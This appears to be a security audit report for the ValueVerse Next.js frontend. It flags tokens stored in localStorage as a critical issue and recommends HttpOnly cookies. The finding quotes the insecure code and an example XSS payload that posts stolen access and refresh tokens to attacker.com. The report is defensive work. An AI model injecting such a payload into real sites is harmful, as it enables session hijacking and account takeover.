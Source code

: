 # Frontend Security Assessment - ValueVerse

## Executive Summary

**Technology Stack:** Next.js 14.2.13 + React 18 + TypeScript  
**Security Maturity:** BASIC (Level 2/5)  
**Critical Issues:** 3  
**High Priority Issues:** 4  
**Medium Priority Issues:** 2

---

## Critical Security Issues (P0)

### 1. Tokens Stored in localStorage (CRITICAL)
**Location:** `/workspace/frontend/services/api.ts:16-18, 24-26`

**Issue:**
```typescript
export function setTokens(access: string, refresh?: string) {
  accessToken = access;
  if (refresh) refreshToken = refresh;
  if (typeof window !== 'undefined') {
    localStorage.setItem('access_token', access);  // ❌ INSECURE
    if (refresh) localStorage.setItem('refresh_token', refresh);  // ❌ INSECURE
  }
}
```

**Impact:**
- **XSS Vulnerability:** Any XSS attack can steal tokens from localStorage
- **No HttpOnly Protection:** JavaScript can access tokens
- **Session Hijacking:** Stolen tokens allow complete account takeover
- **Persistent Storage:** Tokens remain even after browser close

**Attack Scenario:**
```javascript
// Attacker injects this via XSS
fetch('https://attacker.com/steal', {
  method: 'POST',
  body: JSON.stringify({
    token: localStorage.getItem('access_token'),
    refresh: localStorage.getItem('refresh_token')
  })
});
```

**Remediation:** Use HttpOnly cookies for token storage  
**Timeline:** Week 1 (IMMEDIATE)

---
